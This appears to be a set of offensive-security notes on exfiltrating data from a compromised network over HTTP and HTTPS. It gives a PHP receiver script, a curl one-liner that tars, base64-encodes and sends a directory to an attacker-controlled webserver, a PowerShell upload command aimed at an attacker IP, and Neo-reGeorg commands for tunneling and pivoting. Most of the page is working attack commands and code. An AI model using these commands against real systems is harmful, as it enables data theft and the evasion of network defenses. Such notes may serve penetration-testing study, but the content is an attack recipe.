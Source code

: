 # Data Exfiltration Over HTTP and HTTPS

Real world scenario is that an attacker controls a cloud web server an agent or command is then executed from inside the network with a compromised machine to send the data to the webserver that is outside the compromised network. Then the attacker can just log in to a web server to get the data.

## HTTP

**HTTP Data Exfiltration will all be in plaintext and therefore not secure. If you use HTTPS it will be encrypted**

1.  An attacker create a page to be a data handler on the web server.
2.  A C2 agent or an attacker sends the data. 
3.  The webserver receives and stores the data.
4.  Login to webserver and get the data.

#### PHP version:#
bad.php contains:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Then from the machine containing the data to be exfiltrated

```bash
curl --data "file=$(tar zcf - <directory> | base64)" http://webserver/bad.php
```

Then from webserver decode and decompress
```bash
sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

#### Or with encoding

Host a http server, make directory owned by www-data
```bash
mkdir /var/www/uploads -p
chown www-data: /var/www/uploads 
```
Script to placed in /uploads/upload.php
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload
```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://$IP/upload.php', 'bad.exe')
```
## Tunneling

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) is the improve reGeorg a tool for HTTP tunnel pivoting previously written in python 2.7.
```bash
# Generates encrypted Tunneling clients
# key is in the neoreg_servers/
/opt/Neo-reGeorg: python3 neoreg.py generate -k <key> 
# upload one of the compatible clients to webserver
# create tunnel
/opt/Neo-reGeorg: python3 neoreg.py -k <key -u http://url/path/to/tunnel.php
 curl --socks5 127.0.0.1:1080 http://inaccessible-without-tunnel
```

## Notes
The 'Black Hat Python Ed.2' book contains a API exfiltration script to pastebin from a Windows Machine


## References

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) 